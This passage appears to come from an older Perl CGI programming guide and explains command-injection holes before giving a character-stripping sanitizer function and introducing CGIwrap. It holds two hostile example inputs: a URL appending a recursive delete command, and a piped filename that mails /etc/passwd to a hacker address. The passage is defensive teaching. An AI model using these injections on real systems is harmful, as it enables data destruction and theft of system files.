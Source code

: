 ```text
http://www.foo.com/cgi-bin/dirlist.pl/docs
```

Inside your program, the *PATH_INFO* environment variable is set to *docs*. In order to get the directory listing, all that is needed is a call to the *ls* command in UNIX or the *dir* command in DOS. Everything looks good right? 

But what if the program was invoked with this command line? 

```text
http://www.foo.com/cgi-bin/dirlist.pl/; rm -fr;
```

Now, all of a sudden, you are faced with the possibility of files being deleted because the semi-colon (;) lets multiple commands be executed on one command line. 

This same type of security hole is possible any time you try to run an external command. You might be tempted to use the *mail*, *sendmail*, or *grep* commands to save time while writing your CGI program, but since all of these programs are easily duplicated using Perl try to resist the temptation. 

Another security hole is related to using external data to open or create files. Some enterprising hacker could use *"| mail hacker@hacker.com < /etc/passwd"* as the filename to mail your password file or any other file to himself. 

All of these security holes can be avoided by removing the dangerous characters (like the *|* or pipe character). 

> Define the improveSecurity() function. 
> Copy the passed string into $_, the default search space. 
> Protect against command-line options by removing - and + characters. 
> Additional protection against command-line options. 
> Convert all dangerous characters into harmless underscores. 
> Return the $_ variable.

> Listing 19.3-19LST03.PL - How to Remove Dangerous Characters

```perl
sub improveSecurity {
    $_ = shift;
    s/\-+(.*)/\1/g;
    s/(.*)[ \t]+\-(.*)/$1$2/g;
    tr/\$\'\`\"\<\>\/\;\!\|/_/;
    return($_);
}
```

## CGIwrap and Security

CGIwrap (**<A href="http://wwwcgi.umr.edu/~cgiwrap/">http://wwwcgi.umr.edu/~cgiwrap/</A>**) is a UNIX based utility written by Nathan Neulinger which lets general users run CGI scripts without needing access to the server's *cgi-bin* directory. Normally all scripts must be located in the server's main *cgi-bin* directory and all run with the same UID (user id) as the web server. CGIwrap performs various security checks on the scripts before changing id to match the owner of the script. All scripts are executed with same the user id as the user who owns them. CGIwrap works with NCSA, Apache, CERN, Netsite, and probably any other UNIX web server. 

